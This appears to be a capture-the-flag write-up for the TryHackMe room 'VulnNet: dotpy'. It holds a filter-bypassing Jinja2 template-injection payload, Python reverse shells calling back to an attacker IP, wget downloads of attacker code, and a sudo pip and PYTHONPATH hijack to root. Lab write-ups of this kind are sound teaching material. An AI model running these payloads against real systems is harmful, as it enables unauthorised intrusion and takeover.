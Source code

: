 ```yaml
---
title: 'TryHackMe | VulnNet: dotpy'
aliases: ["/2021/04/11/thm-vulnnetdotpy.html"]
date: "2021-04-11T00:00:00Z"
tags: [tryhackme,web,python,jinja2,pathhijacking]
---
```


## Room Information

Title: VulnNet: dotpy<br>
Description: VulnNet Entertainment is back with their brand new website... and stronger?<br>
This room is availiable at [TryHackMe VulnNet:Dotpy](https://tryhackme.com/room/vulnnetdotpy) or go to [TryHackMe](https://tryhackme.com/).

## Ports
```
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

## Reconnaissance

There is a wierd endpoint in the webserver that stops the http server: `/shutdown`
The 404 page will return the folder maybe some SSTI/XSS? We know that the server runs on python it may be jinja2, lets try sending `{{3 * 3}}`. if its jinja2 it should echo 9 back to the page. and ,that worked this will be our point of entry. 

## SSTI / RCE

Now that we have *Server Side Template Injection (SSTI)*, we can try running code on the remote box!
when we try running anything with an `_.[]` it will respond with 
```
INVALID CHARACTERS DETECTED
Your request has been blocked.
``` 
I think there are some filters in place, this may make it hard for us.
First we are gonna try to get a urlparameter
The following snippet will read the get parameter `c`
```
{{request|attr('args')|attr('get')('c')}}?c= 
```

now that we can read c. 
lets try running code on the machine.
```py
{{request|attr('application')|attr( request|attr('args')|attr('get')('us')*2 + "globals" + request|attr('args')|attr('get')('us')*2 ) |attr( request|attr('args')|attr('get')('us')*2 + 'getitem' + request|attr('args')|attr('get')('us')*2 )( request|attr('args')|attr('get')('us')*2 + 'builtins' + request|attr('args')|attr('get')('us')*2) |attr( request|attr('args')|attr('get')('us')*2 + 'getitem' + request|attr('args')|attr('get')('us')*2)(request|attr('args')|attr('get')('us')*2 + 'import' + request|attr('args')|attr('get')('us')*2)('os')|attr('popen')(request|attr('args')|attr('get')('c'))|attr('read')()}}?us=_&c=
```

All of this is to get the `_` from the get parameter `us` and use it in the code, bcause underscores are blocked. 
this is the code when you dont have the underscore blocker.
{% raw %}
```py
{{request|attr('application')|attr( "__globals__" ) |attr( "__getitem__" )( "__builtins__") |attr( "__getitem__")("__import__")('os')|attr('popen')(request|attr('args')|attr('get')('c'))|attr('read')()}}?c=
```
{% endraw %}
Way easier to read. :D

## Reverse Shell

Now that we can run code on the machine lets try running a reverseshell, we are going to use the following command. Lets use it inside the RCE exploit
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$YOUR_IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

```bash
curl -c "SESSION=session-cookie" http://$IP:8080/{{request|attr('application')|attr( request|attr('args')|attr('get')('us')*2 + "globals" + request|attr('args')|attr('get')('us')*2 ) |attr( request|attr('args')|attr('get')('us')*2 + 'getitem' + request|attr('args')|attr('get')('us')*2 )( request|attr('args')|attr('get')('us')*2 + 'builtins' + request|attr('args')|attr('get')('us')*2) |attr( request|attr('args')|attr('get')('us')*2 + 'getitem' + request|attr('args')|attr('get')('us')*2)(request|attr('args')|attr('get')('us')*2 + 'import' + request|attr('args')|attr('get')('us')*2)('os')|attr('popen')(request|attr('args')|attr('get')('c'))|attr('read')()}}?us=_&c=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$YOUR_IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

## Changing user
Lets do some enumeration, in the following output we see we can run `/usr/bin/pip3 install` as the user `system-adm`
<pre class="command-line" data-prompt="web@vulnnet-dotpy $" >
<code class="language-bash">sudo -l
# User web may run the following commands on vulnnet-dotpy:
#    (system-adm) NOPASSWD: /usr/bin/pip3 install *</code></pre>

Lets check [GTFOBins](https://gtfobins.github.io/) for an exploit, and there is [PIP Sudo GTFOBins](https://gtfobins.github.io/gtfobins/pip/#sudo).


<pre class="command-line" data-prompt="web@vulnnet-dotpy $" >
<code class="language-bash">wget $YOUR_IP:8080/pip_setup.py; mv pip_setup.py setup.py
sudo -u system-adm /usr/bin/pip3 install . </code></pre>

And we are now **system-adm** in our new shell. Lets get the user flag.
<pre class="command-line" data-prompt="system-adm@vulnnet-dotpy $" >
<code class="language-bash">cat ~/user.txt
# THM{********************************}</code></pre>

## Privilege Escalation

lets do some enumeration on the new user.

<pre class="command-line" data-prompt="system-adm@vulnnet-dotpy $" data-output="2-3-4-5-6">
<code class="language-bash">sudo -l
# Matching Defaults entries for system-adm on vulnnet-dotpy:
#     env_reset, mail_badpass,
#     secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
# 
# User system-adm may run the following commands on vulnnet-dotpy:
#     (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py</code></pre>


we see that we can set an environment variable while executing python3. We can possibly do some **PYTHONPATH hijacking**. 
there is a library imported `zipfile`, lets overwrite that! 
lets make a file privesc.py on our machine, we can download that by running a small server on our machine and using wget. 

This code will open a socket connection to our machine on port 7777.
<pre data-src="privsec.py" 
  data-download-link 
  data-download-link-label="get_app" 
><code class="language-py">import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("$YOUR_IP",7777));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])</code>
</pre>


Because `import zipfile` is run, it will execute the code inside of `zipfile.py` so we are going to rename the file on the remote and then add it to the **$PYTHONPATH** environment variable.

<pre class="command-line" data-prompt="system-adm@vulnnet-dotpy $" >
<code class="language-bash">wget $YOUR_IP:8080/privesc.py ; mv privesc.py zipfile.py
sudo PYTHONPATH=/home/system-adm /usr/bin/python3 /opt/backup.py</code></pre>

and we have a new shell. lets check our user!
<pre class="command-line" data-prompt="root@vulnnet-dotpy $" >
<code class="language-bash">whoami; id
#root
#uid=0(root) gid=0(root) groups=0(root)</code></pre>

lets cat the root flag!
<pre class="command-line" data-prompt="root@vulnnet-dotpy $" data-output="2">
<code class="language-bash">cat ~/root.txt
THM{********************************}</code></pre>
